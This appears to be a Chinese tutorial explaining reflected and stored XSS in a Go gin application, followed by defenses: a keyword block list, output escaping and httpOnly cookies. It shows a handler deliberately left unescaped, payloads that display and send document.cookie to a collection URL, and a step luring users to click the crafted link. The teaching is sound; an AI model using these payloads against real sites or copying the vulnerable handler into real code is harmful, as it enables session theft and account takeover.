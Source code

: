 在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞（本文忽略）；

### 反射型xss
本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `binding:"required"`
}

func (ctr *Article) Search(c *gin.Context) {

	request := new(request.ArticleSearch)
	if err := c.Validate(request); err != nil {
		panic(err)
	}

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
        "keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串
        //"keyword": request.Keyword, // 默认会自动对特殊符号转义
	})
}
```
[源码链接](../param-validate-xss)
正常传参请求：

```
http://127.0.0.1:8080/article/search?Keyword=手机
```
<img src="../images/xss-1.jpg">

#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?Keyword=<script>alert('XSS')</script>
```
<img src="../images/xss-2.jpg">

#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?Keyword=<script>alert(document.cookie)</script>
```
<img src="../images/xss-3.jpg">

#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?Keyword=<script>document.write('<img src="http://127.0.0.1:8080/cookies?'+document.cookie+'"/>')</script>
这里的+号浏览器访问有问题，转义一下
http://127.0.0.1:8080/article/search?Keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```
<img src="../images/xss-4.jpg">
服务器收集数据如下：
<img src="../images/xss-5.jpg">

#### 第四步：诱惑用户点击
把第三步精心设计的带有xss漏洞的url通过站内信或邮件的方式发给用户，内容为一些诱惑信息，目的是为了让用户单击链接，服务器收集到cookie之后再以用户的身份登录网站。

反射型xss应用场景：搜索、查询等用户输入数据需要在前端展示的场景；

### 存储型xss
存储型xss恶意代码通常存储在数据库中，用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发，
而反射性xss需要诱导用户点击，所以存储型xss危害性更大。

例1:<br>
攻击者在文章评论中提交了恶意代码，所有浏览过这条评论的用户都会被收集敏感数据。

例2:<br>
攻击者在网站留言板块中提交了恶意代码，管理员在后台查看留言触发恶意代码，导致后台地址、管理员cookie泄漏。

存储型xss应用场景：用户名、昵称、留言、用户反馈、个人信息、发表文章、评论、私信等用户输入数据需要在前端展示的场景；

> 存储型xss原理跟反射性大同小异，这里不做代码演示，有兴趣的小伙伴可以自行深入学习。

#### 总结
**1、当遇到用户输入数据并且需要在前端展示的业务场景时，需要特别小心xss攻击（前端包括网站前端和后台前端）。**

**2、用户输入数据需要进行严格校验过滤。**
```go
type KeywordField struct {
    Keyword string `binding:"required,xss"`
}

var keywords = []string{
`(alert).*(\()`,
`(prompt).*(\()`,
`(eval).*(\()`,
`(window).*(\[)`,
`<script`,
`</script`,
`<x`,
`<X`,
`<http`,
`(function).*(\()`,
`<iframe`,
`(href).*(=)`,
`<br>`,
"alert`",
`(find).*(\()`,
`(top).*(\[)`,
`(vibrate).*(\()`,
`<object`,
`<embed`,
`<img`,
`<layer`,
`<style`,
`<meta`,
`=".*"`,
`<html`,
`(echo).*(\()`,
`(confirm).*(\()`,
`(write).*(\()`,
`</svg`,
`<div`,
`</image`,
`form>`,
`(vectors).*(\()`,
`<body`,
`(url).*(\()`,
`math>`,
`-->`,
`<!--`,
`<!attlist`,
`<label`,
`<%`,
`xmp>`,
`template>`,
`<!doctype`,
`=confirm`,
}

xss函数会检查参数是否包含keywords字符串数组里的恶意字符；
因为xss恶意代码还有很多变种，所以xss函数还会通过html转义、url转义、unicode转义、字符小写四个方面检测恶意字符；xss-validator是github开源项目，简单化放在项目里使用；
```
**3、页面输出用户数据时进行转义。**
```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": template.HTML(request.Keyword),
})
```
未转义的html源代码：
<img src="../images/xss-7.jpg">

```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": request.Keyword,
})
```
转义后的html源代码：
<img src="../images/xss-8.jpg">

这种方式有小概率的局限性，比如用户输入数据框不是textarea文本框，而是具有更高自由度的富文本框，这时候转义就会出错，
这种情况下更要严格校验用户输入。

<img src="../images/xss-6.jpg">

**4、条件允许的情况下，cookie可以设置httpOnly。**
```go
c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
//最后一个参数就是httpOnly参数，当设置为true时，document.cookie拿不到token值
```
这种方式也有局限性，很多公司前后端分离，前端调用后端接口需要把token放在header头里，js需要拿到token值，httpOnly参数不能设置为true。

通过两节内容讲解了sql注入和xss攻击的原理步骤和防范措施，目的是有理有据的让大家老老实实的做参数校验，不要偷懒，参数校验是web安全的最重要一环。
